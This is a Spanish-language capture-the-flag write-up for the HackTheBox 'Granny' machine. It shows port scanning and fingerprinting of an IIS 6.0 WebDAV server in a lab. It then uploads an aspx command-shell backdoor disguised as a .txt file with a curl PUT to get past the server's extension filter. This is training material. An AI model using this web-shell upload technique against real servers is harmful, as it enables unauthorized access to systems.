

repository: scarlgyx/scarlgyx-cybersecurity · page: writeups/hackthebox/granny/index.html · generator: mkdocs

# Granny

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn -oG allPorts 10.129.39.20
```

![](../../assets/img/Pasted_image_20260212194200.png)

```bash
nmap -p80 --open -sCV -n 10.129.95.234 -oN portScan
```

![](../../assets/img/Pasted_image_20260212194458.png)

- Tenemos otro WebDav como en el caso de la máquina Grandpa

```bash
whatweb http://10.129.95.234
```

![](../../assets/img/Pasted_image_20260212194626.png)

- Microsoft-IIS/6.0

![](../../assets/img/Pasted_image_20260212194935.png)

La web está en desarrollo

- Usamos *davtest* para comprobar qué extensiones de archivo nos deja subir a la webdav
```bash
davtest -url http://10.129.95.234
```

![](../../assets/img/Pasted_image_20260212195650.png)

Vemos que se pueden subir y ejecutar archivos con la extensión *.txt*

- Intentaremos subir un archivo txt que sea una shell. Tenemos que tener en cuenta que al ser un Microsoft-IIS, el formato ejecutable en el servidor será *.aspx*
Buscaremos en nuestra máquina por alguna shell en formato aspx
```bash
locate .aspx
```

-> nos quedaremos con `/usr/share/davtest/backdoors/aspx_cmd.aspx`
- Lo renombraremos a .txt para que pase el filtro del davtest
-
```bash
mv /usr/share/davtest/backdoors/aspx_cmd.aspx .
```

-
```bash
cp aspx_cmd.aspx aspx_cmd.txt
```

- Subimos el archivo
```bash
curl -s -X PUT http://10.129.95.234/shell.txt -d @aspx_cmd.txt
```

![](../../assets/img/Pasted_image_20260213141552.png)

Vemos que el archivo se sube correctamente en formato.txt
